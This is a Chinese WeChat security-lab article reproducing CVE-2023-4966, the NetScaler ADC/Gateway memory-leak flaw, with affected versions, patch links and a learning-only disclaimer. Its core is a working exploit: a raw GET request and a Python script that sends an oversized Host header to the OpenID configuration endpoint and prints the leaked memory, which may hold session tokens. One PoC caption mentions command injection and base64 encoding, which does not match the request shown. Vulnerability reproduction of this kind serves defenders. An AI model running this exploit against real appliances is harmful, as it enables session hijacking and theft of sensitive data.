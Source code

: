 #  【成功复现】NetScaler ADC&NetScaler Gateway敏感信息泄露漏洞(CVE-2023-4966)

原创 弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 66 个

#漏洞 105 个

#POC 65 个

#复现 77 个

#网络安全 95 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![]()  
 **0x00写在前面**  

 **      本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**

![]()  
 **0x01漏洞介绍**

  

Citrix Systems Citrix NetScaler Gateway（Citrix Systems Gateway）和Citrix Systems
NetScaler ADC都是美国思杰系统（Citrix Systems）公司的产品。Citrix NetScaler
Gateway是一套安全的远程接入解决方案。该方案可为管理员提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据。Citrix Systems
NetScaler ADC是一个应用程序交付和安全平台。

NetScaler ADC和NetScaler Gateway存在安全漏洞，该漏洞源于存在敏感信息泄露。

  

![]()  
 **0x02影响版本**  

NetScaler ADC and NetScaler Gateway 14.1 < 14.1-8.50

NetScaler ADC and NetScaler Gateway 13.1 < 13.1-49.15

NetScaler ADC and NetScaler Gateway 13.0 < 13.0-92.19

NetScaler ADC 13.1-FIPS < 13.1-37.164

NetScaler ADC 12.1-FIPS < 12.1-55.300

NetScaler ADC 12.1-NDcPP < 12.1-55.300

![]()

![]()  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![]()

2.对漏洞进行复现

  **POC  （GET）**

漏洞复现

        GET请求，注入命令执行函数并进行base64编码

  *   * 

    
    
    GET /oauth/idp/.well-known/openid-configuration HTTP/1.1Host: 127.0.0.1

![]()

3.python脚本测试（漏洞存在）

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #!/usr/bin/env python3  
    import sysimport requestsimport urllib3import argparseurllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
    parser = argparse.ArgumentParser()parser.add_argument('--target', help='The Citrix ADC / Gateway target, excluding the protocol (e.g. 192.168.1.200)')args = parser.parse_args()  
    if args.target is None:    print('Target must be provided (e.g. --target 192.168.1.200)')    sys.exit(0)  
    hostname = args.target  
    if __name__ == "__main__":    headers = {        "Host": "a"*24576    }    r = requests.get(f"https://{hostname}/oauth/idp/.well-known/openid-configuration", headers=headers, verify=False,timeout=10)    if r.status_code == 200:        print("--- Dumped Memory ---")        print(r.text[131050:])        print("---      End      ---")    else:        print("Could not dump memory")  
    

![]()

  

![]()  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  

  *   * 

    
    
    https://support.citrix.com/article/CTX579459https://www.assetnote.io/resources/research/citrix-bleed-leaking-session-tokens-with-cve-2023-4966

  

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![]()

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![]()

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

